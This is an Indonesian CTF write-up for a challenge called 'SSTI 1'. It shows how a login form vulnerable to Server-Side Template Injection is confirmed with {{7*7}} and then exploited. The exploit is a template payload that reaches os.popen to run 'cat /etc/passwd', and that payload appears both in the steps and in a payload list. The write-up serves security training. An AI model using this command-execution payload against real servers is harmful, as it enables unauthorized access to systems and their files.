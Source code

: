 # SSTI 1

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

![SSTI1](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
   
3. Coba input payload SSTI sederhana, misal: `{{7*7}}` pada field username atau password.

![Login](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.1.png)

5. Jika output pada halaman berubah menjadi `49`, maka aplikasi rentan SSTI.

![Output](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.2.png)


5. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```
6. Jika berhasil, Anda dapat membaca file sensitif pada server.
   
![Flag](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.3.png)

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

- [OWASP SSTI](https://owasp.org/www-community/vulnerabilities/Server-Side_Template_Injection)




